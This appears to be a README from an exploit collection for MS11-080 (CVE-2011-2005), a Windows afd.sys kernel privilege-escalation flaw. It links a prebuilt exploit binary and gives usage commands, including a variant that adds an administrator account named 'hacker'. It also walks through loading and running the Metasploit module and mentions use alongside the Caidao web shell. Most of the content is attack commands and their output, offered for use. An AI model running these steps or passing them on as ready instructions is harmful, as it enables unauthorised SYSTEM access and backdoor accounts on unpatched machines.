



# MS11-080 
```
This module exploits a flaw in the AfdJoinLeaf function of the afd.
sys driver to overwrite data in kernel space. 
An address within the HalDispatchTable is overwritten 
and when triggered with a call to NtQueryIntervalProfile will execute shellcode. 
This module will elevate itself to SYSTEM, then inject the payload into another 
SYSTEM process before restoring it's own token to avoid causing system instability.
```
- The exp was from [@BHaFSec](www.bhafsec.com/files/windows/ms11-080.exe)

Vulnerability reference:
 * [MS11-080](https://technet.microsoft.com/library/security/ms11-080)
 * [CVE-2011-2005](https://www.exploit-db.com/exploits/18176/)

## Usage
```
+ c:\\> ms11-080.exe -O 2k3 
+ c:\\> ms11-080-AddUser.exe -O 2k3
+ [*] Adding Admin User:hacker Pass:Hacked!...
```
caidao add user  

local  
  
win7  
  

##  load the module within the msf
- [msf](https://www.rapid7.com/db/modules/exploit/windows/local/ms11_080_afdjoinleaf)
```
msf > use exploit/windows/local/ms11_080_afdjoinleaf
msf exploit(ms11_080_afdjoinleaf) > show targets
    ...targets...
msf exploit(ms11_080_afdjoinleaf) > set TARGET <target-id>
msf exploit(ms11_080_afdjoinleaf) > show options
    ...show and set options...
msf exploit(ms11_080_afdjoinleaf) > exploit
```
